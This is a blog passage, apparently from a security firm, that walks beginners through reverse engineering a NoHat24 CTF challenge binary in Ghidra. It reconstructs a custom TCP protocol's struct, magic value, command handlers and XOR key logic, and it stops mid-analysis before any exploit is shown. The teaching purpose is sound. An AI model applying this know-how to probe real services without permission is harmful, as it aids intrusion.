





## Introduction
This blog post is about a manually Reverse Engineered challenge I have written for this year [NoHat24](https://www.nohat.it/) security conference. The conference was a blast and we also did (as [Hacktive Security](https://www.hacktivesecurity.com/)) our best to contribute also with a [worskhop](https://www.nohat.it/workshops#alessandro_groppo) on Linux Kernel Fuzzing. The challenge is a compiled C/C++ binary that implements a custom TCP protocol that can be reversed and exploited to obtain the flag. The blog post objective is to guide a beginner person with a step by step and detailed walkthrough of the whole Reverse Engineering journey, dealing with a statically compiled binary. For the best experience, it is highly suggested to download the target binary from [here ](https://github.com/hacktivesec/nohat24-blog-references/blob/main/re/challenge) and try to replicate described steps.

## The beginning of the journey
First things  first, let's see what our binary is with a simple `file` command:

```bash
$ file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=975594a6398b8d39078294cbd2a09f100dfd6643, for GNU/Linux 3.2.0, stripped
```

We can immediately take some notes on few things that are interesting for the reverse engineering phase: the binary is **static** (e.g. not linked with dynamic libraries) and **stripped** (e.g. no symbols). Both things will make it harder to understand the inner logic of the targeted program.

Also, the `strings` utility suggests that we are dealing with C++ too:
```bash
$ strings challenge | grep std
# ...
std::bad_alloc
std::bad_array_new_length
std::bad_cast
std::bad_typeid
std::allocator
std::basic_string
std::string
# ...
```
### First approach
After having opened the binary in Ghidra and having identified its `main` function (`FUN_00405b16`) , it is possible to understand the first behaviors through logging strings:
```C
undefined8 FUN_00405b16(void)
{
  undefined4 uVar1;
  int iVar2;
  undefined8 uVar3;
  long in_FS_OFFSET;
  undefined4 local_48;
  undefined4 local_44;
  int local_40;
  int local_3c;
  undefined2 local_38;
  undefined2 local_36;
  undefined4 local_34;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = FUN_00524bf0(2,1,0);
  local_48 = 1;
  uVar1 = FUN_0051b890(0);
  FUN_004cf660(uVar1);
  if (local_40 < 0) {
    uVar3 = FUN_00476a40(&DAT_005caba0,"Failed to create socket");
    FUN_004753c0(uVar3,FUN_00476340);
  }
  else {
    iVar2 = FUN_00524bb0(local_40,1,2,&local_48,4);
    if (iVar2 < 0) {
      uVar3 = FUN_00476a40(&DAT_005caba0,"Failed to setsockopt on socket");
      FUN_004753c0(uVar3,FUN_00476340);
    }
    else {
      thunk_FUN_004ef5e0(&local_38,0,0x10);
      local_38 = 2;
      local_34 = 0;
      local_36 = FUN_005257d0(0x51);
      iVar2 = FUN_005249d0(local_40,&local_38,0x10);
      if (iVar2 < 0) {
        uVar3 = FUN_00476a40(&DAT_005caba0,"Bind failed");
        FUN_004753c0(uVar3,FUN_00476340);
        FUN_005216a0(local_40);
      }
      else {
        iVar2 = FUN_00524a00(local_40,5);
        if (-1 < iVar2) {
          uVar3 = FUN_00476a40(&DAT_005cacc0,"Server listening..");
          FUN_004753c0(uVar3,FUN_00476340);
          do {
            while( true ) {
              local_44 = 0x10;
              local_3c = FUN_00524930(local_40,local_28,&local_44);
              if (-1 < local_3c) break;
              uVar3 = FUN_00476a40(&DAT_005caba0,"Accept failed");
              FUN_004753c0(uVar3,FUN_00476340);
            }
            uVar3 = FUN_00476a40(&DAT_005cacc0,"Connection accepted");
            FUN_004753c0(uVar3,FUN_00476340);
            FUN_0040597c(local_3c);
            FUN_005216a0(local_3c);
          } while( true );
        }
        uVar3 = FUN_00476a40(&DAT_005caba0,"Listen failed");
        FUN_004753c0(uVar3,FUN_00476340);
        FUN_005216a0(local_40);
      }
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    FUN_005256e0();
  }
  return 1;
}
```

Since the binary is statically linked and stripped, common libc functions do not have explicit names and needs to be reconstructed. To perform such operation, strings can be used to guess the function name and can be confirmed through a more reliable method: go to the function definition and extract the `eax` register used in the `syscall` instruction. For example, the function `FUN_00524930` can be guessed as an `accept` syscall through the `Accept failed` log message (hence, the `FUN_00476a40` is something log related) and confirmed with its assembly, where `0x2d` corresponds to the `accept` syscall ([Linux kernel syscall tables](https://syscalls.mebeim.net/?table=x86/64/x64/v6.7)):

```asm
0052493d: MOV EAX,0x2b
00524942: SYSCALL
```

 Also, the first accepted parameter of the `accept` syscall is a `socket` file descriptor and can be used to identify the `socket` call at `FUN_00524bf0` since the returned value is assigned into the `local_40` variable.

```C

undefined8 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined8 uVar3;
  long in_FS_OFFSET;
  undefined4 local_48;
  undefined4 local_44;
  int socket;
  int sock_accept;
  undefined2 local_38;
  undefined2 local_36;
  undefined4 local_34;
  undefined local_28 [24];
  long stack_cookie;
  
  stack_cookie = *(long *)(in_FS_OFFSET + 0x28);
  socket = ::socket(2,1,0);
  local_48 = 1;
  uVar1 = FUN_0051b890(0);
  FUN_004cf660(uVar1);
  if (socket < 0) {
    uVar3 = may_log(&DAT_005caba0,"Failed to create socket");
    jmp_rsi(uVar3,FUN_00476340);
  }
  else {
    iVar2 = FUN_00524bb0(socket,1,2,&local_48,4);
    if (iVar2 < 0) {
      uVar3 = may_log(&DAT_005caba0,"Failed to setsockopt on socket");
      jmp_rsi(uVar3,FUN_00476340);
    }
    else {
      thunk_FUN_004ef5e0(&local_38,0,0x10);
      local_38 = 2;
      local_34 = 0;
      local_36 = FUN_005257d0(0x51);
      iVar2 = bind(socket,&local_38,0x10);
      if (iVar2 < 0) {
        uVar3 = may_log(&DAT_005caba0,"Bind failed");
        jmp_rsi(uVar3,FUN_00476340);
        close(socket);
      }
      else {
        iVar2 = listen(socket,5);
        if (-1 < iVar2) {
          uVar3 = may_log(&DAT_005cacc0,"Server listening..");
          jmp_rsi(uVar3,FUN_00476340);
          do {
            while( true ) {
              local_44 = 0x10;
              sock_accept = accept(socket,local_28,&local_44);
              if (-1 < sock_accept) break;
              uVar3 = may_log(&DAT_005caba0,"Accept failed");
              jmp_rsi(uVar3,FUN_00476340);
            }
            uVar3 = may_log(&DAT_005cacc0,"Connection accepted");
            jmp_rsi(uVar3,FUN_00476340);
            FUN_0040597c(sock_accept);
            close(sock_accept);
          } while( true );
        }
        uVar3 = may_log(&DAT_005caba0,"Listen failed");
        jmp_rsi(uVar3,FUN_00476340);
        close(socket);
      }
    }
  }
  if (stack_cookie != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return 1;
}
```

By applying these techniques on the entire `main` function, we can obtain a much more cleaner code and identify two key parts:
- The server uses an `AF_INET` socket and binds to port `81` (`&local_38` is a `struct sockaddr *`). The `81` port can be quickly identified, without a proper cast, through the `local_36` variable that is instead an offset of the `local_38` stack variable.
- The file descriptor returned from the `accept` syscall (the client connection) is parsed through the `FUN_0040597c` function that can be renamed, for that reason, to `parse_client_message`.

### Parse client message
```C
void parse_client_message(int socket)

{
  char cVar1;
  int iVar2;
  undefined8 uVar3;
  long in_FS_OFFSET;
  undefined local_228 [4];
  char local_224;
  ushort local_222;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  thunk_FUN_004ef5e0(local_118,0,0x108);
  iVar2 = FUN_00524a30(socket,local_118,0x108,0);
  if (iVar2 < 0) {
    uVar3 = may_log(&DAT_005caba0,"Error reading from socket");
    jmp_rsi(uVar3,FUN_00476340);
    close(socket);
  }
  else {
    FUN_00405f5e(local_228);
    cVar1 = FUN_00405f8e(local_228,local_118,(long)iVar2);
    if (cVar1 == '\x01') {
      FUN_00406018(local_228);
      if (local_224 == 0x10) {
        FUN_00405453(local_228);
      }
      else if (local_224 == 0x20) {
        FUN_00405520(local_228);
      }
      else {
        local_222 = 0;
      }
      FUN_00524af0(socket,local_228,(ulong)local_222 + 8,1);
    }
    else {
      uVar3 = may_log(&DAT_005caba0,"Invalid message received");
      jmp_rsi(uVar3,FUN_00476340);
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return;
}
```

The newly identified `parse_client_message` function seems to do what we have guessed: parse a message received from the client (`Error reading from socket` where `FUN_00524a30` is `recvfrom`) and perform some validation (e.g. `Invalid message received`).
By applying the same techniques previously described we can make further assumptions:
- `local_118` is the second parameter of the `recvfrom` syscall. Since the second parameter of `recvfrom` is a `char*` buffer we can safely rename it to `buffer` and change its type (using the Ghidra `Retype Variable`) to `char[256]`.
- The `FUN_00405f5e` seems to init a structure (or object since we are dealing with C++) inside the `undefined` stack variable `local_228` (now renamed to `undefined_obj`). 
- The just initialized `undefined_obj` is used as the first parameter to the function `FUN_00405f8e` that accepts two more parameters: the `buffer` passed to the `recvfrom` and its returned result (e.g. number of received bytes) through the local `iVar3` (renamed to `bytes_received`). We can use these information to retype the targeted function signature with appropriate parameter types.

### Initialize an undefied object
```C
undefined8 FUN_00405f8e(undefined8 *undefined_obj,char *buffer,ulong param_3)

{
  undefined8 uVar1;
  
  if (param_3 < 8) {
    uVar1 = 0;
  }
  else {
    *undefined_obj = *(undefined8 *)buffer;
    if (*(short *)undefined_obj == -0x9a) {
      if (*(ushort *)((long)undefined_obj + 6) < 0x101) {
        thunk_FUN_004ef2e0(undefined_obj + 1,buffer + 8,*(short *)((long)undefined_obj + 6));
        uVar1 = 1;
      }
      else {
        uVar1 = 0;
      }
    }
    else {
      uVar1 = 0;
    }
  }
  return uVar1;
}
```

Function `FUN_00405f8e` first checks that `param_3` is more than `8` bytes and returns `0` otherwise. 
The first `if` condition is misleading through the decompiled code, but much more clear from the assembly instruction: `CMP AX, 0xff66`. We are checking that the first bytes of the received buffer contains the `0xff66` constant (some sort of a magic value?)  and returning `0` if not. The next conditional statement is checking 2 bytes (deduced from the `ushort` cast of the offset access and confirmed from the `AX` usage inside `CMP AX,0x100`). If the extracted value at offset `0x6` is below `0x101` (256 in decimal, a classic buffer size :}) we continue with a weird call to `thunk_FUN_004ef2e0` and we set the return result (`uVar1` now renamed to `ret`) to 1. 

The `thunk_FUN_004ef2e0` function is not that straightforward to understand and can be statically identified by deeply reversing the function or dynamically using a debugger and verifying its behavior. It is accepting three parameters:
1. `undefined_obj + 1` where the `+1` is not properly "correct". Since we are presumably dealing with an object, it should be treated as a `void*`. By re-typing the value to a more appropriate type, it become `undefined_obj + 8` as the assembly instruction.
2. `buffer + 8` that is the same offset as the first parameter.
3. `undefined_obj + 6` that has been previously discussed and could be some sort of size (due to the `256` constant).

It seems that the first 2 parameters are some sort of source and destination (also dealing with the same offset) and the last parameter a size. Is it a `memcpy`? A quick session with `gdb` actually reveals that the behavior, and the function signature, match the `memcpy` function call. Nice!

### Scratching the structure definition
With these first hints, we can perform some asssumptions:
1. First bytes of the received buffer should contains a magic value `0xff66` that corresponds to 2 bytes (16 bits).
2. At offset `0x6` we should have a size related field of 2 bytes (remember the previous `CMP, 0x100` instruction and the `memcpy` parameter).
3. Starting from offset `0x8`, we are copying the entire buffer, for a maximum of `256` bytes, inside our undefined object.

With that information, we can start creating a potential structure from `Data Type Manager` => `Data Types` => `challenge` => `New` => `Structure`:



After the creation of the new structure and the retype of the `undefined_obj`, we have a much cleaner and easier to understand function (renamed into `copy_from_buffer`). Also, we can retype the same value from the caller function and all subsequent calls.

```C
undefined8 copy_from_buffer(struct custom_message *undefined_obj,char *buffer,ulong param_3)

{
  undefined8 buffer_ptr;
  
  if (param_3 < 8) {
    buffer_ptr = 0;
  }
  else {
    buffer_ptr = *(undefined8 *)buffer;
    undefined_obj->magic = (short)buffer_ptr;
    undefined_obj->undefined[0] = (char)((ulong)buffer_ptr >> 0x10);
    undefined_obj->undefined[1] = (char)((ulong)buffer_ptr >> 0x18);
    undefined_obj->undefined[2] = (char)((ulong)buffer_ptr >> 0x20);
    undefined_obj->undefined[3] = (char)((ulong)buffer_ptr >> 0x28);
    undefined_obj->size = (short)((ulong)buffer_ptr >> 0x30);
    if (undefined_obj->magic == 0xff66) {
      if (undefined_obj->size < 0x101) {
        memcpy(undefined_obj->payload,buffer + 8,undefined_obj->size);
        buffer_ptr = 1;
      }
      else {
        buffer_ptr = 0;
      }
    }
    else {
      buffer_ptr = 0;
    }
  }
  return buffer_ptr;
}
```
**Note:** `buffer_ptr` is a rename to make it easier to read the code after the `else` statement. However, it is also used form the same routine as the return result variable. For that reason, it is returning `buffer_ptr` but instead it is `0` or `1`.

### More parsing
Coming back to the renamed `parse_client_message`, a conditional statement verifies the content of `undefined_obj.undefined[2]` against `0x10` or `0x20`. If it doesn't match any of these two values, it will set the `size` object value to 0 and continue the execution. The execution, shared also with the two conditional cases, goes directly into a `sendto` syscall (renamed from `FUN_00524af0`):
```C
sendto(socket,&undefined_obj,(ulong)undefined_obj.size + 8,0);
```

The sent buffer is the same object we are analyzing and the number of bytes to be sent through the `sendto` syscall (third parameter) is the `undefined_obj.size` previously set to zero plus `0x8`.

If the condition matches `0x10` the routine calls `FUN_00405453` or `FUN_00405520` if it matches `0x20` and they both accept the address of the `undefined_obj` as a parameter. Also, from that condition, we can continue to add information on our structure. We are accessing the byte (due to the `MOVZXZ EAX, AL` before the `CMP` instruction) at offset `0x2` of the `undefined` member.  We can add a member on our `struct custom_message` with the name of `command`, since it seems to redirect the execution based on its value, and put a size of `uint8_t` due to the `AL` register access and the comparison of the two hexadecimal values:



### Command 0x10
We can rename `FUN_00405453` to `command_0x10` and `FUN_00405520` to `command_0x20`. This is useful to simplify further references.

```C
void command_0x10(struct custom_message *obj)
{
  int iVar1;
  ushort *puVar2;
  byte bVar3;
  long in_FS_OFFSET;
  ushort local_22;
  long stack_cookie;
  
  stack_cookie = *(long *)(in_FS_OFFSET + 0x28);
  local_22 = *(ushort *)obj->undefined;
  if ((local_22 < 0x100) || (0x900 < local_22)) {
    obj->size = 0;
  }
  else {
    iVar1 = FUN_004cf650();
    bVar3 = (char)iVar1 + (char)(iVar1 / 0x3f) * -0x3f;
    puVar2 = (ushort *)FUN_004060a8(&DAT_005c9d80,&local_22);
    *puVar2 = (ushort)bVar3;
    obj->size = 2;
    obj->payload[0] = '\x01';
    obj->payload[1] = bVar3;
  }
  if (stack_cookie != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return;
}
```

The first thing we can see, after having retyped the parameter into `struct custom_message*`, as observed from the caller, is the dereference of `obj->undefined` as a `ushort` (2 bytes). The first validation is that that value is between `0x100` and `0x900`, otherwise we return while setting the object size to `0x0`. If the validation step is valid the things become more confusing:
1. The result of `FUN_004cf650` (`iVar1`) is divided by `0x3f` and summed with itself, then multiplied with `0x3f` (=>`bVar3`) and the result is stored in the pointer returned from `FUN_004060a8`.
2.  `FUN_004060a8` involves two parameters: a global variable (due to its `.bss` section location)  `DAT_005c9d8` and the byte extracted from `obj->undefined` as the second parameter. 

The `DAT_005c9d8` address, by seeing its references, is also used in the function `command_0x20` but in the opposite way: instead of storing a value inside the returned pointer, it retrieves it, always using the `obj->undefined` member of our declared structure. Since the internals of the `FUN_004060a8` are pretty confusing, let's superficially rename the function  into a generic `store_and_get` and proceed the analysis. After storing the calculated value, the object parameter is directly modified: its `size` to `0x2`, `payload[0]` to `0x1` and `obj->payload[1]` with the calculated value. By seeing the `payload` access we can suppose that we have two more `byte` members instead of the remaining `char`. A weird thing is that now the `structure->payload` become `char[254]`, a weird size for a payload, but that's what we are observing. Since we know the logic behind the second parameter, we can rename its newly created member at that offset with `calculated_value`, leaving the other one with an undefined logic with `undefined_3`.



After returning to `parse_client_message`, as observed before, the modified object is sent back to the client. That means that the same object as input is used as output for the client socket.

### Command 0x20
If `undefined_obj.command`, in `parse_client_message`, contains `0x20` instead, the function `command_0x20` is called:
```C
void command_0x20(struct custom_message *obj)
{
  byte bVar1;
  char cVar2;
  int iVar3;
  undefined2 *puVar4;
  undefined8 uVar5;
  long in_FS_OFFSET;
  undefined2 local_168;
  ushort local_166;
  int local_164;
  int local_160;
  int local_15c;
  int local_158;
  int local_154;
  int local_150;
  undefined4 local_14c;
  undefined4 local_148;
  int local_144;
  long local_140;
  undefined local_138 [16];
  undefined8 local_128;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_168 = *(undefined2 *)obj->undefined;
  puVar4 = (undefined2 *)store_and_get(&DAT_005c9d80,&local_168);
  bVar1 = (byte)*puVar4;
  if (bVar1 == 0) {
    obj->size = 0;
  }
  else {
    local_14c = 3;
    local_138 = (undefined  [16])0x0;
    local_128 = 0;
    local_166 = 0;
    local_164 = 0;
    local_140 = 0;
    local_160 = 0;
    local_15c = 0;
    while ((((local_15c < 3 &&
             (local_166 = (ushort)obj->payload[(long)local_164 + -2],
             (int)(uint)local_166 <= 0xff - local_164)) && (local_166 < obj->size)) &&
           (local_166 != 0))) {
      local_140 = FUN_004ed140(local_166 + 1);
      *(undefined *)(local_140 + (ulong)local_166) = 0;
      memcpy(local_140,obj->payload + (long)local_164 + -1,local_166);
      for (local_158 = 0; local_158 < (int)(uint)local_166; local_158 = local_158 + 1) {
        *(byte *)(local_140 + local_158) = *(byte *)(local_140 + local_158) ^ bVar1;
      }
      *(long *)(local_138 + (long)local_15c * 8) = local_140;
      local_160 = local_160 + 1;
      local_164 = local_164 + local_166 + 1;
      local_15c = local_15c + 1;
    }
    if (local_160 < 2) {
      obj->size = 0;
    }
    else {
      local_154 = 0;
      iVar3 = thunk_FUN_004ef8a0(local_138._0_8_,&DAT_00568030);
      if (iVar3 == 0) {
        local_154 = 0x40;
      }
      iVar3 = thunk_FUN_004ef8a0(local_138._0_8_,&DAT_00568035);
      if (iVar3 == 0) {
        local_154 = 0x41;
      }
      iVar3 = thunk_FUN_004ef8a0(local_138._0_8_,"write");
      if (iVar3 == 0) {
        local_154 = 0x42;
      }
      local_148 = 0;
      if (local_154 == 0x42) {
        uVar5 = may_log(&DAT_005cacc0,"EXEC_WRITE Not implemented");
        jmp_rsi(uVar5,FUN_00476340);
      }
      else if (local_154 < 0x43) {
        if (local_154 == 0x40) {
          obj->size = 1;
          cVar2 = FUN_00405355(local_138._8_8_);
          if (cVar2 == '\x01') {
            obj->undefined_3 = 1;
          }
          else {
            obj->undefined_3 = 0;
          }
        }
        else if (local_154 == 0x41) {
          if (local_160 == 3) {
            local_148 = FUN_004ce310(local_128);
            local_144 = FUN_004053be(&obj->undefined_3,local_138._8_8_,local_148);
            if (local_144 == 0) {
              obj->size = 0;
            }
            else {
              obj->size = (uint16_t)local_144;
              for (local_150 = 0; local_150 < local_144; local_150 = local_150 + 1) {
                obj->payload[(long)local_150 + -2] = obj->payload[(long)local_150 + -2] ^ bVar1;
              }
            }
          }
          else {
            obj->size = 0;
          }
        }
      }
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_check();
}
```

In this case, we are dealing with a much longer function. `store_and_get` function is the first one that is called and retrieve its value, maybe based on the `obj->undefined` value. We can then rename `pVar1` with `stored_value` and we can see that if it is `0x0`, the function sets `obj->size` to `0x0` and return, a common pattern also identified previously that seems to be related to some sort of failure in the message validation process. That means that the `store_and_get` function must return something to proceed (**hence we need to first call `command_0x10` to set it?**).

#### The tedious while loop
The first while loop inside the `command_0x20` seems like one of the first main blocks of the function and contains a pretty confusing condition, let's cut it down: 

```C
local_164 = 0;
local_15c = 0;    
while (
	(
		(
			(local_15c < 3 &&
			(local_166 = obj->payload[local_164 - 2], local_166 <= 0xff - local_164)) && 
			(local_166 < obj->size)
		)
		  &&
	   (local_166 != 0))
) {
  // ..
  memcpy(local_140,obj->payload + (long)local_164 + -1,local_166);
  local_164 = local_164 + local_166 + 1;
  local_15c = local_15c + 1;
}
```

Step by step:
1. `local_15c` is zero initialized, incremented inside the loop and checked if it is less than `3`. It is clearly an `index` that tells us that it will loop through the cycle at least 3 times. Let's rename it to `idx`.
2. `local_166` is assigned to  `obj->payload[local_164 - 2]`, where `local_164` is first initialized with 0 and then incremented with `1` and the value of `local_166` inside the loop.  `local_166` is later used as the size parameter of the `memcpy` function, while `local_164` as an offset to `obj_payload` as the source argument.
	1. Since the two local variables are pretty confusing, let's start renaming things into something more easy to read with the limited information we have gathered: `memcpy_size` and `memcpy_source_offset`.

```C
memcpy_source_offset = 0;
local_15c = 0;    
while (
	(
		(
			(local_15c < 3 &&
			(memcpy_size = obj->payload[memcpy_source_offset - 2], memcpy_size <= 0xff - memcpy_source_offset)) && 
			(memcpy_size < obj->size)
		)
		  &&
	   (memcpy_size != 0))
) {
  // ..
  memcpy(local_140,obj->payload + (long)memcpy_source_offset + -1,memcpy_size);
  memcpy_source_offset = memcpy_source_offset + memcpy_size + 1;
  local_15c = local_15c + 1;
}
```

Now we can use more meaningful names and things are more clear:

3. `memcpy_size` is retrieved at each loop through an offset (`memcpy_source_offset`) inside the `obj->payload`. Given these two variables, the content of `obj->payload` is copied inside the `local_140` variable (dynamic parsing).
	- Also, `memcpy_size` must not be zero or more than `0xff - memcpy_source_offset` to continue the loop.

Let's see more code to understand the entire loop process:
```C
local_138 = (undefined  [16])0x0;
while ((((idx < 3 &&
		 (memcpy_size = (ushort)obj->payload[(long)memcpy_source_offset + -2],
		 (int)(uint)memcpy_size <= 0xff - memcpy_source_offset)) && (memcpy_size < obj->size))
	   && (memcpy_size != 0))) {
  local_140 = FUN_004ed140(memcpy_size + 1);
  *(undefined *)(local_140 + (ulong)memcpy_size) = 0;
  memcpy(local_140,obj->payload + (long)memcpy_source_offset + -1,memcpy_size);
  for (local_158 = 0; local_158 < (int)(uint)memcpy_size; local_158 = local_158 + 1) {
	*(byte *)(local_140 + local_158) = *(byte *)(local_140 + local_158) ^ bVar1;
  }
  *(long *)(local_138 + (long)idx * 8) = local_140;
  local_160 = local_160 + 1;
  memcpy_source_offset = memcpy_source_offset + memcpy_size + 1;
  idx = idx + 1;
}
```

4. `local_140` is assigned with the result of the `FUN_004ed140` with the `memcpy_size` as the parameter. Identify this function is easy as just open the function and see the error log with `"malloc.c",0xd17,"__libc_malloc"` on it. We can rename it to `malloc` and know that `local_140` holds a pointer to an allocated memory.
	1. We put a `0x0` value at the offset of `memcpy_size`. Maybe the NULL character at the end of the string.
5. `local_140` is used as the destination of the previously described `memcpy` (renamed it to `memcpy_dest`).
6. The next `for` loop iterates on each character copied inside the `memcpy_dest` pointer using `local_158` as an index (renamed to `inner_idx`) and XOR its with `stored_value`.
	1. Here we go! We have found how `stored_value` is used and we can rename it to `xor_key`. We can also rename the `obj->undefined` into something like `xor_key_derivate` since it is used to derive in some way (through the `store_and_get` function) the XOR key.
7. Just after the `for` loop we have an assignment of the pointer `local_140` (now `memcpy_dest`) to `local_138` with the `idx` index multiplied by 8.  We can retype the `local_140` array (declared from ghidra as `undefined local_138 [16];`) into a `char*` for that reasons (and rename it into `char_ptr_array`):
	2. We are storing a pointer into each slot (the multiplication of 8 is the size of each entry e.g. the pointer size)
	3. We were NULL terminating the memory. That means that we are dealing with some sort of string parsing.
8. Furthemore, `local_160` is incremented by 1 at each iteration and later checked against 2 (if it is less we return with `obj->size = 0`) and later again inside another loop. We don't know the context of it but at least know that, in order to continue the function flow, we need to iterate the loop at least 2 times. With poor fantasy, let's rename it `at_least_2`.

Finally, the loop is far more readable:
```C
local_14c = 3;
char_ptr_array[0] = (char *)0x0;
char_ptr_array[1] = (char *)0x0;
char_ptr_array[2] = (char *)0x0;
memcpy_size = 0;
memcpy_source_offset = 0;
memcpy_dest = (char *)0x0;
at_least_2 = 0;
idx = 0;
while ((((idx < 3 &&
		 (memcpy_size = (ushort)obj->payload[(long)memcpy_source_offset + -2],
		 (int)(uint)memcpy_size <= 0xff - memcpy_source_offset)) && (memcpy_size < obj->size))
	   && (memcpy_size != 0))) {
